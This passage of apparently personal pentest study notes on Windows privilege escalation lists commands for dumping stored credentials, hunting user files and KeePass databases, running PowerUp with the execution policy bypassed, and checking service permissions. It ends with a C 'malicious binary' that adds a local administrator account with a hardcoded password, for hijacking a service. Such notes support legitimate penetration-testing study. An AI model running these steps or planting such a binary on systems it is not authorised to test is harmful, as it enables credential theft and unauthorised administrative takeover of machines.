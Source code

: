 #### Stored Credentials

```
cmdkey /list
```

#### Search for Files with specific extensions

```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.exe,*.zip,*.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
### Automated Enumeration

#### Winpeas

#### PowerUp

```
powershell -ep bypass
```

```
. .\PowerUp.ps1
```

```
Invoke-AllChecks
```


### Service Binary Hijacking

#### Enumerating File Permissions

```
icacls "<<FILE_PATH>>"
```

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

#### Creating malicious binary 

Contents of `adduser.c` :
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
